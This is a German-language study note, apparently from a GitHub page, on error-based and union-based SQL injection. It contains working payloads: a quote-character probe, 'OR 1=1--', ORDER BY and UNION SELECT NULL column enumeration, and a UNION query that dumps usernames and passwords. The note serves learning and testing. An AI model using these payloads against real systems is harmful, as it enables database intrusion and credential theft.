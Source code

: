 Zu unterscheiden in "Error Based" oder "Union Based".

# Error-Based
```sql
// Input
www.random.com/app.php?id =' // Das Hochkomma 
// Output
You have an error in your SQL syntax...
```
Weitere In-Band Attacken
```sql
https://insecure-website.com/products?category=Gifts'+OR+1=1--
//White-Box
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

# Union-Based
## Regeln:
- Die nummer und die Sortierung der Spalten muss in allen Queries gleich sein
- Datentypen müssen kompatibel sein

## Order by
```sql
select title, cost from product where id =1 order by 1
```
Wieviele Spalten gibt es? `order by 1 / order by 2 / ..`

## NULL Werte
```sql
select title, cost from product where id =1 UNION SELECT NULL -- 
```
### Fehlermeldung
> All querie combined usimg a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

```sql
 UNION SELECT NULL, NULL --
 ```
## Type Fuzzing
```sql
 UNION SELECT 'a', NULL --
 UNION SELECT NULL, 'a' --
 ```
 
# Beispiele
## Data-Dump
```sql
SELECT name, description FROM products WHERE category = 'Gifts'
// Attacker
' UNION SELECT username, password FROM users-- 
```
